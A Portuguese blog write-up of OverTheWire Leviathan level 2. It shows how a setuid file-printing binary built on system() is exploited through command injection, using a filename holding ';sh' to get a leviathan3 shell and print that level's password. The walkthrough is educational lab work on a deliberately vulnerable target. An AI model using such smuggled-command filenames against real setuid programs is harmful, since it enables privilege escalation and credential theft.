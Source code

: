 ```yaml
---
layout: default
title: Level 2 - Command Injection [OverTheWire CTF – Leviathan] write-up
date: 2016-11-06 18:44
author: brennords
comments: true
categories: [CTFs]
---
```

<ul>
    <li><a href="https://brenn0.wordpress.com/2016/11/02/level-1-overthewire-ctf-leviathan-write-up/">Level 0</a></li>
    <li><a href="https://brenn0.wordpress.com/2016/11/02/level-1-overthewire-ctf-leviathan-write-up/" target="_blank" rel="noopener">Level 1</a></li>
</ul>

E agora é hora do Level 2.

<blockquote>
Obs: como já explico umas merdas básicas nos write-ups dos levels anteriores, vou evitar ficar repetindo para que serve um ltrace e só explicar o que for surgindo de novo.
</blockquote>

Logado no ssh como leviathan2, encontrei o arquivo <strong>printfile</strong> na minha home. Era o alvo da vez.

```leviathan2@melinda:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
```

O executável faz juz ao nome e, pelo que é descrito, deve imprimir um arquivo na tela. Como em todos os nívels, o arquivo roda com permissões do user acima do meu, ou seja, leviathan3, então é óbvio que tentei fazer com ele lesse o arquivo que continha o password do próximo nível, pois leviathan3 pode, eu não.

```
leviathan2@melinda:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Why not? :( Essa porra tava aparentando ser simples demais.

```
leviathan2@melinda:~$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852d, 2, 0xffffd664, 0x8048600 unfinished ...
access(/etc/leviathan_pass/leviathan3, 4) = -1
puts(You cant have that file...You cant have that file...
) = 27
+++ exited (status 1) +++
```

A função access retorna -1 quando tento ler o pass de leviathan3, com certeza isso não significa coisa boa para o meu lado. Não conhecia a função <strong>access </strong>e o máximo que encontrei foi a <a href="https://linux.die.net/man/2/access" target="_blank" rel="noopener">man page</a>. Mas foi suficiente, a descrição do que ela fazia era simples e direta: checar as permissões reais do usuário que tenta acessar um arquivo.

Logo, o printfile ser executado com permissões de leviathan3 não me permite ler arquivos que pertecem ao mesmo porque a função acess sempre vai detectar que sou leviathan2 e me falar que não posso ter determinado arquivo.

Certo, será preciso enganar esse programa de alguma forma. Primeira coisa que fiz, foi criar um arquivo (no único lugar que o ctf nos dá permissão de escrita, em <strong>/tmp</strong>) e observar o comportamento de printfile quando passo como argumento algo que tenho permissões de acesso.

```
leviathan2@melinda:~$ ltrace ./printfile /tmp/0211/fuck
__libc_start_main(0x804852d, 2, 0xffffd674, 0x8048600 unfinished ...
access(/tmp/0211/fuck, 4) = 0
snprintf(/bin/cat /tmp/0211/fuck, 511, /bin/cat %s, /tmp/0211/fuck) = 23
system(/bin/cat /tmp/0211/fuckfuck
no return ...
--- SIGCHLD (Child exited) ---
... system resumed) = 0
+++ exited (status 0) +++
```

A função access fica satisfeita e a string que é passada como argumento ganha um trato da função <a href="http://www.br-c.org/doku.php?id=snprintf">snprintf</a>. Então a string que vai para <a href="https://www.vivaolinux.com.br/dica/Usando-funcoes-do-sistema-em-C-com-system">system</a> fica sendo <em>/bin/cat nosso/argumento</em>. (Siga os links para entender sobre o que as funções fazem)

Nessa altura eu perdi algum tempo achando que a falha poderia estar na função access. Depois de algumas tentativas frustradas de tentar explora-la de alguma forma, decidi que ela não era o caminho.

Foi aí que prestei a atenção em <strong>snprintf</strong> e <strong>system</strong>.

```
snprintf(/bin/cat /tmp/0211/fuck, 511, /bin/cat %s, /tmp/0211/fuck) = 23
system(/bin/cat /tmp/0211/fuckfuck
```

Descrevendo de forma rústica: o programa, cegamente, pega o argumento, põe após <em>/bin/cat</em> e manda system executar. Vi então uma oportunidade para injetar comandos, afinal, system apenas executará a string e, se o programa não fizer uma validação em busca de um ponto e vírgula, por exemplo, teremos a capacidade de executar outro comando após o <em>/bin/cat</em>.

Decidi testar minha teoria criando um arquivo com o nome <strong>--help</strong>. Como não é uma prática nada comum criar arquivos com caracteres especiais (tipo ; e -), tive a ajuda disso <a href="http://www.tecmint.com/manage-linux-filenames-with-special-characters/">aqui</a> para lembrar de como cria-los.

```
leviathan2@melinda:/tmp/0211$ touch -- --help

leviathan2@melinda:/tmp/0211$ ltrace ../../home/leviathan2/printfile --help
__libc_start_main(0x804852d, 2, 0xffffd644, 0x8048600 unfinished ...
access(--help, 4) = 0
snprintf(/bin/cat --help, 511, /bin/cat %s, --help) = 15
system(/bin/cat --helpUsage: /bin/cat [OPTION]... [FILE]...
Concatenate FILE(s), or standard input, to standard output.

-A, --show-all equivalent to -vET
-b, --number-non... cortei os bla bla da mensagem de help do cat
no return ...
--- SIGCHLD (Child exited) ---
... system resumed) = 0
+++ exited (status 0) +++
```

<a href="https://www.owasp.org/index.php/Command_Injection">Command injection</a> verificado com sucesso. É possível executar o que se quiser e tudo com privilégios de leviathan3. E o que mais se quer? SHEEEELLLLLL.

```
leviathan2@melinda:/tmp/0211$ touch ';sh'
leviathan2@melinda:/tmp/0211$ ls
--help -h ;sh fuck leviathan3
leviathan2@melinda:/tmp/0211$ ../../home/leviathan2/printfile ;sh
*** File Printer ***
Usage: ../../home/leviathan2/printfile filename
$ whoami
leviathan2
$
```

Algo saiu errado... Mas é claro que saiu! Por não pôr o ;sh entre aspas simples, ao invés de passar como argumento, acabei executando o comando <em>sh</em> após a execução de printfile.

Hora de tentar novamente (dessa vez com o ltrace para ver se tudo corria bem):

```
leviathan2@melinda:/tmp/0211$ ltrace ../../home/leviathan2/printfile ';sh'
__libc_start_main(0x804852d, 2, 0xffffd644, 0x8048600 unfinished ...
access(;sh, 4) = 0
snprintf(/bin/cat ;sh, 511, /bin/cat %s, ;sh) = 12
system(/bin/cat ;sh

bash
bash
```

Ainda nada. Mas não foi dificil para perceber que ;sh agora estava virando argumento de cat e as coisas não saiam como esperado. Então criei um novo arquivo chamado <strong>fuck';sh'. </strong>Assim, cat iria ler o arquivo fuck e em seguida system iria executar sh.

```
leviathan2@melinda:/tmp/0211$ touch fuck';sh'
leviathan2@melinda:/tmp/0211$ ls
--help -h ;sh fuck fuck;sh leviathan3
leviathan2@melinda:/tmp/0211$ ../../home/leviathan2/printfile fuck';sh'
fuck
$ whoami
leviathan3
$ cat /etc/leviathan_pass/leviathan3
cXVlcmZsYWc/
```

Esse foi divertido.
